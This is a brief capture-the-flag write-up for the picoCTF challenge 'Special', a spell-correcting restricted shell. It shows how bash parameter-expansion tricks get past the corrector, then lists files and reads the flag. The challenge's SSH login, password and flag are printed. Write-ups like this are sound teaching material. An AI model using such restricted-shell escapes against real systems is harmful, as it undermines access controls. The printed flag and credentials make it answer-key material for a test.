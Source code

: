 ## Objetivo
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
Start your instance to see connection details.`ssh -p 57634 ctf-player@saturn.picoctf.net`The password is `af86add3`
## Solucion

```bash
Special$ ls
Is
sh: 1: Is: not found
Special$ ${parameter?ls}
${parameter?ls}
sh: 1: parameter: ls
Special$ ${parameter=ls}
${parameter=ls}
blargh
Special$ ${parameter=cd blargh}
${parameter=cd blargh}
Special$ ${parameter=ls blargh}
${parameter=ls blargh}
flag.txt
Special$ ${parameter=cat < blargh/flag.txt}
${parameter=cat < blargh/flag.txt}
cat: '<': No such file or directory
picoCTF{5p311ch3ck_15_7h3_w0r57_6a2763f6}Special$
```
## Notas adicionales
## Referencias
- [Pico CTF (Special) | JosephKimiri's Blog](https://josephkimiri.github.io/posts/Special/)